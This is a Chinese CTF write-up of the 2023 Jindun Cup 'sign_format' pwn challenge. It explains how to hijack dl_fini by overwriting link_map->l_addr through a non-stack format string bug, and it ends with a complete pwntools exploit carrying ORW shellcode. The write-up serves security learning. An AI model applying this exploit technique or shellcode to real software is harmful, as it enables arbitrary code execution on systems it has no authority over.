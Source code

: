```yaml
---
title: 格式化字符串漏洞之劫持dl.fini
author: seyedog
date: 2023-12-18 20:40:00 +0800
categories: [Blogging, fmt]
tags: [pwn]
---
```



### 1. .fini_array劫持

以2023金盾杯的题为例
#### 1.1 2023金盾杯 sign_format

题目介绍：一道非栈上的格式化字符串，通过修改dl_fini数组里的偏移值，使函数在退出时执行我们写在bss段上的shellcode。


题目保护分析：没开PIE，其他防护都开了。其次开启了沙箱，需要ORW

题目主要流程：
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_40135D();
  puts("Welcome here!");
  puts("It's a simple sign-in question.");
  puts("Let's start!");
  close(1);
  read(0, format, 0x100uLL);
  printf(format);
  return 0LL;
}
```

有一个很长的输入，之后是格式化字符串漏洞，但是关闭了标准输出流。

其中format保存在bss段上，所以不能修改返回地址了。
格式化字符串%n解析的是地址，当格式化字符串不写在栈上，我们无法通过访问写在栈上的地址来实现任意地址写。而且不能控制返回地址了。

考虑使用.fini_array劫持

#### 1.2 劫持.fini_array

实现功能：在执行exit函数的时候，执行任意地址上的程序

利用条件：需要修改一个在ld.so段上的值。
猜测这个值会在进行动态链接的时候过程中残留在栈上（存疑）

##### 1.2.1 原理分析

下面是程序执行流程图：

![](assets/img/pictureI/星盟周报11.png)

根据上图流程，如果我们控制`exit`函数的finiarray，可以实现任意代码执行。

##### 1.2.2 dl_fini函数

![](assets/img/pictureI/星盟周报1.png)

`exit`函数执行的时候会调用`dl_fini`函数。

本来l->l_addr为0，而l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr指针指向程序中的fini_array段的地址，也就是l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr的值为0x0000000000403D98

![](assets/img/pictureI/星盟周报2.png)

如果我们能控制**linkmap->l_addr**指针，就可以将程序偏移到我们写的位置，执行shellcode。
需要注意这里存的是一个程序地址：0x401200，所以我们伪造`l_addr`的时候将偏移后的值改为shellcode的地址。

那么如何通过格式化字符串控制`l_addr`呢？这个就需要用到在栈上留存的一个`ld.so`上的指针了

#### 1.3 gdb动态分析利用过程

首先，在main函数执行完毕之后会跳转到exit函数执行：

![](assets/img/pictureI/星盟周报7.png)

然后我们步进到exit函数中：

![](assets/img/pictureI/星盟周报6.png)

可见exit函数会调用一个叫`__run_exit_handlers`的函数
继续步进，直到这个函数调用了`__dl_fini`函数，然后dl_fini函数会执行call rax地址：
![](assets/img/pictureI/星盟周报5.png)

具体查看rax地址是0x40406b，指向0x404073，其实这里已经是被我们修改了。原本rax应该是0x0403D98 -> 0x401200，原本是要去执行这个代码的：
![](assets/img/pictureI/星盟周报8.png)

dl_fini函数：
![](assets/img/pictureI/星盟周报1.png)

当我们修改了l_addr之后，array\[i]就可以被控制了。

而我们只需要计算0x40406B - 0x403D98 = 723，就知道我们应该把`l_addr`改成多少了。那么我们怎么改这个值呢？

#### 1.4 修改ElfW中l->l_addr劫持fini_array执行

前面我们说过了，在栈上有一个ld.so的地址残留，猜测是在动态链接的过程中残留在栈上的，对应这道题：

![](assets/img/pictureI/星盟周报9.png)
就是那个末尾是0x2e0的粉色的地址。里面存的值0x2d3就是723，这里是执行完格式化字符串漏洞，已经被我们修改过了。原本里面存的应该是0，对应的就是`l->l_addr = 0`

具体在dl_fini函数中：
![](assets/img/pictureI/星盟周报3.png)

执行 `add rax,qword ptr [r15]` ，这个r15此时保存的就是栈上ld.so保存的那个数据，那么只要利用格式化字符串漏洞修改这个ld.so地址中存的值，就可以控制让rax中保存的值从0x401200+0x0 改为访问我们希望执行的shellcode的地址。
这里就是对应`l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`，从而让fini_array被劫持。
而具体改为什么数字，我们前面已经计算过了：0x40406B - 0x403D98 = 723
接下来只需要找到ld.so这个地址的格式化字符串偏移，然后将他里面存放的数据从0修改为723即可。

###### 这里插一嘴
在执行dl_fini的过程中有几步rax的值是0x403e00：

![](assets/img/pictureI/星盟周报10.png)

这个其实是`.dynamic`节的地址，保存的是用于动态链接函数的信息表地址，或者其他什么地址。这个需要看具体值：
![](assets/img/pictureI/星盟安全4.png)

###### 结构体如下：
```c
typedef struct{
	ELF64_Sxword d_tag;
	union{
		ELF64_Xword d_val;
		ELF64_Addr d_ptr;
	}d_un;
}ELF64_Dyn;
```

这个结构体根据第一个值`d_tag`的具体取值选择对应第二个值是用来做什么的。
这里应该是用来找dl_fini的偏移。
这个学过ret2dlresolve的师傅应该很熟悉
###### 言归正传

#### 1.4 exp

```python
from ctypes import *
from pwn import *
banary = "/home/giantbranch/PWN/question/City/jindun/2023/pwn1"
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(banary)
# libc = ELF("/home/giantbranch/PWN/libc/libc.so.6")
# libc=ELF("/home/giantbranch/PWN/libc/libc6_2.27-3ubuntu1.5_amd64.so")
ip = '123.56.237.147'
port = 47726
local = 1
if local:
    io = process(banary)
else:
    io = remote(ip, port)

context(log_level = 'debug', os = 'linux', arch = 'amd64')
#context(log_level = 'debug', os = 'linux', arch = 'i386')

def dbg():
    gdb.attach(io)
    pause()

s = lambda data : io.send(data)
sl = lambda data : io.sendline(data)
sa = lambda text, data : io.sendafter(text, data)
sla = lambda text, data : io.sendlineafter(text, data)
r = lambda : io.recv()
ru = lambda text : io.recvuntil(text)
uu32 = lambda : u32(io.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
iuu32 = lambda : int(io.recv(10),16)
iuu64 = lambda : int(io.recv(6),16)
uheap = lambda : u64(io.recv(6).ljust(8,b'\x00'))
lg = lambda addr : log.info(addr)
ia = lambda : io.interactive()

main_read = 0x0040144A

bss = 0x0404060

fini_array = 0x403d90   #0x403d98 - 0x403da0  .fini_array
    # array[0]->__do_global_dtors_aux
    # array[1]->fini

# payload = b"%"+b"240c%21$hhn"
# payload = b"%"+b"584c%34$hn"
#0x403fe0
# payload = b"%"+b"723c%34$hn"
payload = b"%"+b"723c%34$hn"

payload2= """
   push   0x67616c66
   push   0x2
   pop    rax
   mov    rdi,rsp
   xor    rsi,rsi
   syscall
   mov    rdi,rax
   xor    rax,rax
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
   push   0x1
   pop    rax
   push   0x2
   pop    rdi
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
"""
print(len(payload))
payload = payload + p64(0x40406b+8)+ asm(payload2)
print(len(payload))
dbg()
sl(payload)

ia()
    
```



